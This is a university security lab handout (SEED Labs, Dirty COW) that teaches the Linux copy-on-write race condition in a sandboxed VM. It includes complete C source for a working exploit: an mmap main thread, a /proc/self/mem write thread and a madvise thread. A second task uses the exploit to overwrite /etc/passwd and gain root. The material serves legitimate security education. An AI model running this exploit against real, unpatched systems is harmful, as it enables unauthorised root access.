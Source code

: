 # Dirty COW Attack Lab

```
Copyright © 2017 by Wenliang Du.
This work is licensed under a Creative Commons Attribution-NonCommercial-ShareAlike 4.0 International
License. If you remix, transform, or build upon the material, this copyright notice must be left intact, or
reproduced in a way that is reasonable to the medium in which the work is being re-published.
```
## 1 Overview

The Dirty COW vulnerability is an interesting case of the race condition vulnerability. It existed in the
Linuxkernel since September 2007, and was discovered and exploited in October 2016. The vulnerability
affects allLinux-based operating systems, including Android, and its consequence is very severe: attackers
can gain the root privilege by exploiting the vulnerability. The vulnerability resides in the code of copy-on-
write insideLinuxkernel. By exploiting this vulnerability, attackers can modify any protected file, even
though these files are only readable to them.
The objective of this lab is for students to gain the hands-on experience on the Dirty COW attack,
understand the race condition vulnerability exploited by the attack, and gain a deeper understanding of the
general race condition security problems. In this lab, students will exploit the Dirty COW race condition
vulnerability to gain the root privilege.

Readings and videos. Detailed coverage of the Dirty COW attack can be found in the following:

- Chapter 8 of the SEED Book,Computer & Internet Security: A Hands-on Approach, 2nd Edition, by
    Wenliang Du. See details athttps://www.handsonsecurity.net.
- Section 7 of the SEED Lecture at Udemy,Computer Security: A Hands-on Approach, by Wenliang
    Du. See details athttps://www.handsonsecurity.net/video.html.

Lab environment. This lab has been tested on our pre-built Ubuntu 12.04 VM, which can be downloaded
from the SEED website. If you are using our SEEDUbuntu 16.04 VM, this attack will not work, because
the vulnerability has already been patched in the kernel. You can download the SEEDUbuntu12.04 VM
from the SEED web site. If you have an Amazon EC2 account, you can find our VM from the “Community
AMIs”. The name of the VM isSEEDUbuntu12.04-Generic. It should be noted that Amazon’s site
says that this is a 64-bit VM; that is incorrect. The VM is 32-bit. However, this incorrect information does
not cause any problem.

## 2 Task 1: Modify a Dummy Read-Only File

The objective of this task is to write to a read-only file using the Dirty COW vulnerability.

### 2.1 Create a Dummy File

We first need to select a target file. Although this file can be any read-only file in the system, we will use
a dummy file in this task, so we do not corrupt an important system file in case we make a mistake. Please
create a file calledzzzin the root directory, change its permission to read-only for normal users, and put
some random content into the file using an editor such asgedit.


$ sudo touch /zzz
$ sudo chmod 644 /zzz
$ sudo gedit /zzz
$ cat /zzz
111111222222333333
$ ls -l /zzz
-rw-r--r-- 1 root root 19 Oct 18 22:03 /zzz
$ echo 99999 > /zzz
bash: /zzz: Permission denied

From the above experiment, we can see that if we try to write to this file as a normal user, we will fail,
because the file is only readable to normal users. However, because of the Dirty COW vulnerability in the
system, we can find a way to write to this file. Our objective is to replace the pattern"222222"with
"******".

### 2.2 Set Up the Memory Mapping Thread

Files needed for this lab are included in Labsetup.zip, which can be fetched by running the following commands.

```
sudo wget https://github.com/CloudLabs-MOC/CloudLabs-SEED/blob/main/Software%20Security/Dirty%20COW/Lab%20files/Labsetup.zip
```

```
sudo unzip Labsetup.zip
```
The program has three threads:the main thread, the write thread, and the madvise thread. The main thread maps/zzzto memory, finds
where the pattern"222222"is, and then creates two threads to exploit the Dirty COW race condition
vulnerability in the OS kernel.

Listing 1: The main thread
/* cow_attack.c (the main thread) */

#include <sys/mman.h>
#include <fcntl.h>
#include <pthread.h>
#include <sys/stat.h>
#include <string.h>

void *map;

int main(int argc, char *argv[])
{
pthread_t pth1,pth2;
struct stat st;
int file_size;

```
// Open the target file in the read-only mode.
int f=open("/zzz", O_RDONLY);
```
```
// Map the file to COW memory using MAP_PRIVATE.
fstat(f, &st);
file_size = st.st_size;
map=mmap(NULL, file_size, PROT_READ, MAP_PRIVATE, f, 0);
```
```
// Find the position of the target area
char *position = strstr(map, "222222"); ¿
```
```
// We have to do the attack using two threads.
pthread_create(&pth1, NULL, madviseThread, (void *)file_size); ¡
```

```
pthread_create(&pth2, NULL, writeThread, position); ¬
```
// Wait for the threads to finish.
pthread_join(pth1, NULL);
pthread_join(pth2, NULL);
return 0;
}

In the above code, we need to find where the pattern"222222"is. We use a string function called
strstr()to find where"222222"is in the mapped memory (Line¿). We then start two threads:
madviseThread(Line¡) andwriteThread(Line¬).

### 2.3 Set Up the write Thread

The job of thewritethread listed in the following is to replace the string"222222"in the memory with
"******". Since the mapped memory is of COW type, this thread alone will only be able to modify the
contents in a copy of the mapped memory, which will not cause any change to the underlying/zzzfile.

Listing 2: Thewritethread
/* cow_attack.c (the write thread) */

void *writeThread(void*arg)
{
char *content= "******";
off_t offset = (off_t) arg;

int f=open("/proc/self/mem", O_RDWR);
while(1) {
// Move the file pointer to the corresponding position.
lseek(f, offset, SEEK_SET);
// Write to the memory.
write(f, content, strlen(content));
}
}

### 2.4 The madvise Thread

Themadvisethread does only one thing: discarding the private copy of the mapped memory, so the page
table can point back to the original mapped memory.

Listing 3: Themadvisethread
/* cow_attack.c (the madvise thread) */

void *madviseThread(void*arg)
{
int file_size = (int) arg;
while(1){
madvise(map, file_size, MADV_DONTNEED);
}
}


### 2.5 Launch the Attack

If thewrite()and themadvise()system calls are invoked alternatively, i.e., one is invoked only after
the other is finished, thewriteoperation will always be performed on the private copy, and we will never
be able to modify the target file. The only way for the attack to succeed is to perform themadvise()
system call while thewrite()system call is still running. We cannot always achieve that, so we need
to try many times. As long as the probability is not extremely low, we have a chance. That is why in the
threads, we run the two system calls in an infinite loop. Compile thecowattack.cand run it for a few
seconds. If your attack is successful, you should be able to see a modified/zzzfile. Report your results in
the lab report and explain how you are able to achieve that.

$ gcc cow_attack.c -lpthread
$ a.out
... press Ctrl-C after a few seconds ...

## 3 Task 2: Modify the Password File to Gain the Root Privilege

Now, let’s launch the attack on a real system file, so we can gain the root privilege. We choose the
/etc/passwdfile as our target file. This file is world-readable, but non-root users cannot modify it.
The file contains the user account information, one record for each user. Assume that our user name is
seed. The following lines show the records for root andseed:

root:x:0:0:root:/root:/bin/bash
seed:x:1000:1000:Seed,123,,:/home/seed:/bin/bash

Each of the above record contains seven colon-separated fields. Our interest is on the third field, which
specifies the user ID (UID) value assigned to a user. UID is the primary basis for access control inLinux,
so this value is critical to security. The root user’s UID field contains a special value 0; that is what makes
it the superuser, not its name. Any user with UID 0 is treated by the system as root, regardless of what user
name he or she has. Theseeduser’s ID is only 1000 , so it does not have the root privilege. However,
if we can change the value to 0 , we can turn it into root. We will exploit the Dirty COW vulnerability to
achieve this goal.
In our experiment, we will not use theseedaccount, because this account is used for most of the
experiments in this book; if we forget to change the UID back after the experiment, other experiments will
be affected. Instead, we create a new account calledcharlie, and we will turn this normal user into root
using the Dirty COW attack. Adding a new account can be achieved using theaddusercommand. After
the account is created, a new record will be added to/etc/passwd. See the following:

$ sudo adduser charlie
...
$ cat /etc/passwd | grep charlie
charlie:x:1001:1001:,,,:/home/charlie:/bin/bash

We suggest that you save a copy of the/etc/passwdfile, just in case you make a mistake and corrupt
this file. An alternative is to take a snapshot of your VM before working on this lab, so you can always roll
back if the VM got corrupted.

Task: You need to modify thecharlie’s entry in/etc/passwd, so the third field is changed from
1001 to 0000 , essentially turningcharlieinto a root account. The file is not writable tocharlie, but


we can use the Dirty COW attack to write to this file. You can modify thecowattack.cprogram from
Task 1 to achieve this goal.
After your attack is successful, if you switch user tocharlie, you should be able to see the#sign at
the shell prompt, which is an indicator of the root shell. If you run theidcommand, you should be able to
see that you have gained the root privilege.

seed@ubuntu$ su charlie
Passwd:
root@ubuntu# id
**uid=0(root)** gid=1001(charlie) groups=0(root),1001(charlie)

## 4 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.


